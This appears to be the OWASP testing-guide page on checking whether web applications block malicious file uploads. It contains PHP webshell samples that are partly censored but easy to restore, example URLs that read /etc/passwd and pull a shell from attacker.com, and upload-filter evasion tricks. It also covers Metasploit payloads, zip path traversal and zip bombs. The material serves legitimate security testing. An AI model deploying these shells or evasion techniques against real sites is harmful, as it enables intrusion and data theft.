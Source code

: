 # Test Upload of Malicious Files

|ID               |
|-----------------|
|WSTG-BUSLOGIC-009|

## Summary

Many application’s business processes allow for the upload of data/information. We regularly check the validity and security of text but accepting files can introduce even more risk. To reduce the risk we may only accept certain file extensions, but attackers are able to encapsulate malicious code into inert file types. Testing for malicious files verifies that the application/system is able to correctly protect against attackers uploading malicious files.

Vulnerabilities related to the uploading of malicious files is unique in that these “malicious” files can easily be rejected through including business logic that will scan files during the upload process and reject those perceived as malicious. Additionally, this is different from uploading unexpected files in that while the file type may be accepted the file may still be malicious to the system.

Finally, “malicious” means different things to different systems, for example Malicious files that may exploit SQL server vulnerabilities may not be considered a “malicious” to a main frame flat file environment.

The application may allow the upload of malicious files that include exploits or shellcode without submitting them to malicious file scanning. Malicious files could be detected and stopped at various points of the application architecture such as: IPS/IDS, application server anti-virus software or anti-virus scanning by application as files are uploaded (perhaps offloading the scanning using SCAP).

## Example

Suppose a picture sharing application allows users to upload their .gif or .jpg graphic files to the web site. What if an attacker is able to upload a PHP shell, or exe file, or virus? The attacker may then upload the file that may be saved on the system and the virus may spread itself or through remote processes exes or shell code can be executed.

## How to Test

### Generic Testing Method

- Review the project documentation and use exploratory testing looking at the application/system to identify what constitutes and “malicious” file in your environment.

- Develop or acquire a known “malicious” file. An [EICAR anti-malware test file](https://2016.eicar.org/85-0-Download.html) can be used as harmless, but widely detected by antivirus software.

- Try to upload the malicious file to the application/system and verify that it is correctly rejected.

- If multiple files can be uploaded at once, there must be tests in place to verify that each file is properly evaluated.

### Exploit Payload

- Using the Metasploit payload generation functionality generates a shellcode as a Windows executable using the Metasploit “msfpayload” command.

- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

### Malicious File

- Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.

- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

[Intended Use - EICAR](https://2016.eicar.org/86-0-Intended-use.html)

### WebShell Backdoor

For example upload the `WebShell-backdoor.php` to the target victim site.

```php
<?php
    if(isset($_REQUEST['rq'])){
        echo "<pre>";
        $rq= ($_REQUEST['rq']);
        /* Replace CENSORED with system ($rq) to activate the sample */
        CENSORED;
        echo "</pre>";
        die;
    }
?>
```

Once it's uploaded, the testers/hackers may get the password by visiting the URL below.

`http://TargetVictimSite.com/WebShell-backdoor.php?rq=cat+/etc/passwd`

or it may execute by remote file injection as below.

`http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php`

Other PHP example:

```php
<?php @CENSORED($_POST['password']);?>
```

> Replace @CENSORED with @eval

### Invalid File

- Set up the intercepting proxy to capture the “valid” request for an accepted file.

- Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods are common to be found in the source code.

- Java: new file, import, upload, getFileName, Download, getOutputString
- C/C++: open, fopen
- PHP: move_uploaded_file(),Readfile, file_put_contents(),file(),parse_ini_file(), copy(),fopen(),include(), require()

### Evasion of the Filter

The following techniques may be used to bypass the website file upload checking rules and filters.

- Change the value of `Content-Type` as `image/jpeg` in HTTP request
- Change the extensions as executable extensions such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml
- Changes of capital letters of extensions. such as file.PhP or file.AspX
- Using special trailing such as spaces, dots or null characters such as file.asp… . file.php;jpg, file.asp%00.jpg, 1.jpg%00.php

The executable extensions should be in black list such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml

- In IIS6 vulnerability, if the file name is file.asp;file.jpg, the file will be executed as file.asp.

`http://www.targetVictim.com/path/file.asp;file.jpg`

- In NginX, if the original file name is test.jpg, testers/hackers may change it to `test.jpg/x.php`

Once it's uploaded, the file will be executed as x.php

### Zip Files Path

One Zip file may contain the malicious PHP with target purpose path such as `..\\..\\..\\..\\hacker.php`. If the website doesn't check the unzip target path, the hacker.php may unzip to the specified path.

### Zip Bomb

Upload the [ZIP bomb](https://github.com/AbhiAgarwal/notes/wiki/Zip-bomb) file that may cause application denial of service.

- new File, file, OutputSteam, upload, import, file_put_contents, open, fopen

## Related Test Cases

[Test File Extensions Handling for Sensitive Information](../02-Configuration_and_Deployment_Management_Testing/03-Test_File_Extensions_Handling_for_Sensitive_Information.md)

[Test Upload of Unexpected File Types](08-Test_Upload_of_Unexpected_File_Types.md)

## Tools

- Metasploit's payload generation functionality

- Intercepting proxy

## References

[OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

[Why File Upload Forms are a Major Security Threat](https://www.acunetix.com/websitesecurity/upload-forms-threat/)

[Overview of Malicious File Upload Attacks](http://securitymecca.com/article/overview-of-malicious-file-upload-attacks/)

[8 Basic Rules to Implement Secure File Uploads](https://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads)

[Stop people uploading malicious PHP files via forms](https://stackoverflow.com/questions/602539/stop-people-uploading-malicious-php-files-via-forms)

[How to Tell if a File is Malicious](https://www.techsupportalert.com/content/how-tell-if-file-malicious.htm)

[CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

[Implementing Secure File Upload](https://infosecauditor.wordpress.com/tag/malicious-file-upload/)

[Metasploit Generating Payloads](https://www.offensive-security.com/metasploit-unleashed/Generating_Payloads)

## Remediation

While safeguards such as blacklisting or whitelisting of file extensions, using “Content-Type” from the header, or using a file type recognizer may not always be protections against this type of vulnerability. Every application that accepts files from users must have a mechanism to verify that the uploaded file does not contain malicious code. Uploaded files should never be stored where the users or attackers can directly access them.
